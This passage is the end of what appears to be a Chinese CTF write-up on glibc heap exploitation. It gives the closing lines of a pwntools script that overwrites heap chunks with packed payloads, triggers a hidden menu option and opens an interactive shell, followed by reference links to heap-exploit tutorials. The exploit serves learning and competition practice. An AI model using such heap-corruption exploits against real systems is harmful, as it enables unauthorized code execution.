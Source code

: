  ```python
 edit(8, payload2)
 # pause()
 
 add(0x48)
 payload = p64(0) * 2 + p64(0) * 6
 edit(2, payload)
 
 p.sendlineafter('Choice: ','666')
 p.send(p64(0)*6)
 
 p.interactive()
 ```

## 参考链接

https://www.wangan.com/docs/pwn-base

https://wiki.x10sec.org/pwn/linux/glibc-heap/heap_overview-zh/ 

https://www.yuque.com/hxfqg9/bin/ape5up

https://www.bookstack.cn/read/CTF-All-In-One/doc-3.1.8_heap_exploit_3.md

https://www.freebuf.com/articles/system/209096.html

https://www.anquanke.com/post/id/176194#h2-3

https://zhuanlan.zhihu.com/p/213904612